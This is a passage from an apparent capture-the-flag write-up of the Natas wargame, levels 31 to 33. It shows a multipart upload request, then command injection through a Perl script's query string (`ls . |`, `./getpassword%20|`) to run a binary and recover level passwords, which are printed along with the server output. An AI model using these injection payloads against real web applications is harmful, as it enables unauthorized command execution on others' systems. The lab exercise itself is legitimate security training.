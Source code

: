 ```
ARGV
------WebKitFormBoundaryNVAqSsCF
Content-Disposition: form-data; name="file"; filename="hi.txt"
Content-Type: text/html

hihihi
------WebKitFormBoundaryNVAqSsCF
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryNVAqSsCF--

``` 

And password.
no1vohsheCaiv3ieH4em1ahchisainge

## level 32 -> 33

This level appears to be basically identical to the previous, with the exception of a message informing me I must prove I have RCE and that there is an executable I must run in webroot.

Using what I've just learned in the last level, I should be able to pass in a query string that is a command terminated with a '|'. 
Frustratingly, trying `/index.pl?ls|` doesn't get my any output. Maybe I'll try using the more verbose `ls . |` 
And that works!
```
<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>bootstrap-3.3.6-dist
</td></tr><tr><td>getpassword
</td></tr><tr><td>getpassword.c
</td></tr><tr><td>getpassword.c.tmpl
</td></tr><tr><td>index-source.html
</td></tr><tr><td>index-source.pl
</td></tr><tr><td>index.pl
</td></tr><tr><td>index.pl.tmpl
</td></tr><tr><td>jquery-1.12.3.min.js
</td></tr><tr><td>sorttable.js
</td></tr><tr><td>tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

So looks like I have to run getpassword: `/index.pl?./getpassword%20|`

And there it is.
shoogeiGa2yee3de6Aex8uaXeech5eey

## level 33 -> 34
